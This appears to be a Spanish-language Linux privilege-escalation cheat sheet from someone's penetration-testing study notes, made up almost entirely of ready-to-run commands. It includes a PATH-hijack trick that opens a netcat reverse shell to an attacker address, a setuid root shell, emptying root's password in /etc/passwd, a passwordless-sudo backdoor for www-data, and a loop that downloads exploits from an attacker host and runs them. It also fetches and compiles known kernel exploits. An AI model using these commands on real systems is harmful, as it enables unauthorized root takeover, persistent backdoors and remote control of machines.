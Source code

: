 # Elevacion de privilegios

## Spawing shell

1) Shell interactiva --> `python -c 'import pty; pty.spawn("/bin/sh")'; export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; export TERM=xterm; export SHELL=bash`

2) Add public key to authorized keys  --> `echo $(wget http:/$LHOST/.ssh/id_rsa.pub) >> ~/.ssh/authorized_keys`

## Informacion SO

3) Distribucion de linux y version --> `cat /etc/issue; cat /etc/*-release; cat /etc/lsb-release; cat /etc/redhat-release;`

4) Arquitectura de sistema y kernel --> `$ cat /proc/version; uname -a; uname -mrs; rpm -q kernel; dmesg | grep Linux; ls /boot | grep vmlinuz-; file /bin/ls; cat /etc/lsb-release`

5) Variables de entorno             --> `cat /etc/profile; cat /etc/bashrc; cat ~/.bash_profile; cat ~/.bashrc; cat ~/.bash_logout; env; set`

## Directorios y procesos

6) Bit SUID y SGID                  --> `printf "-------SUID-------\n\n"; find / -perm -u=s -type f 2>/dev/null; printf "-------GUID-------\n\n"; find / -perm -g=s -type f 2>/dev/null`

7) Listar los procesos corriendo como root, permisos y NFS exports --> `echo 'services running as root'; ps aux | grep root;  echo 'permissions'; ps aux | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++'; echo 'nfs info'; ls -la /etc/exports 2>/dev/null; cat /etc/exports 2>/dev/null`

8) Listar directorios con permisos de lectura, escritura y ejecución --> 
<pre>
Permisos de W    -->  find / -writable -type d 2>/dev/null
Permisos de W    -->  find / -perm -222 -type d 2>/dev/null
Permisos de W    -->  find / -perm -o w -type d 2>/dev/null    
Permisos de X    -->  find / -perm -o x -type d 2>/dev/null
Permisos de W+X  -->  find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
Permisos de R    -->  find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print
</pre>


9) Encontrar binarios interesantes             -->  `find / -name wget; find / -name nc*; find / -name netcat*; find / -name tftp*; find / -name ftp`

## Reconocimiento automatico

10) LinuxPrivChecker --> `cp $OSCP/escalacion/linuxprivchecker.py lpc.py`

11) Linux Exploit Suggester --> `cp $OSCP/escalacion/les.sh .`

12) Linux Exploit Suggester perl --> `cp $OSCP/escalacion/Linux_Exploit_Suggester.pl les.pl`

## Utilidades

13) Alterar el PATH para un fichero SUID que invoca a otro --> `set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"; echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh ; chmod +x ssh`

14) Generar una shell con SUID --> `echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c`

15) Si /etc/passwd tiene permisos incorrectos --> `echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su`

16) Añadir al usuario www-data a sudoers sin password --> `echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`


## Compilacion

17) Incluir path --> `gcc -B /usr/bin file.c -o compiled`

18) Solucionar error de target  --> `gcc file.c -o compiled -Wl,--hash-style=both`

## Exploits satisfactorios

19) __Exploits precompilados para Linux__ https://github.com/lucyoa/kernel-exploits  `git clone https://github.com/lucyoa/kernel-exploits.git` 

20) __CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8__ https://www.exploit-db.com/exploits/15285

21) __Linux Kernel <= 2.6.37 'Full-Nelson.c'__ https://www.exploit-db.com/exploits/15704/

22) __CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)__ https://git.zx2c4.com/CVE-2012-0056/about/

23) __Linux CVE 2012-0056__ `wget -O mem.c http://www.exploit-db.com/download/18411; gcc -o mem mem.c`

24) __CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8__ https://dirtycow.ninja/ `g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil`
`wget https://www.exploit-db.com/download/40839 -O dirty.c; gcc -pthread dirty.c -o dirty -lcrypt`

25) __Linux 2.6.32__ https://www.exploit-db.com/exploits/15285/ 

26) __CVE-2010-2959 - 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)__ 
<pre>
wget -O 14814.c http://www.exploit-db.com/download/14814
gcc 14814.c -o can
</pre>

27) __Elevation in 2.6.x__ `for a in 9352 9513 33321 15774 15150 15944 9543 33322 9545 25288 40838 40616 40611 ; do wget http://$LHOST/$a; chmod +x $a; ./$a; id; done`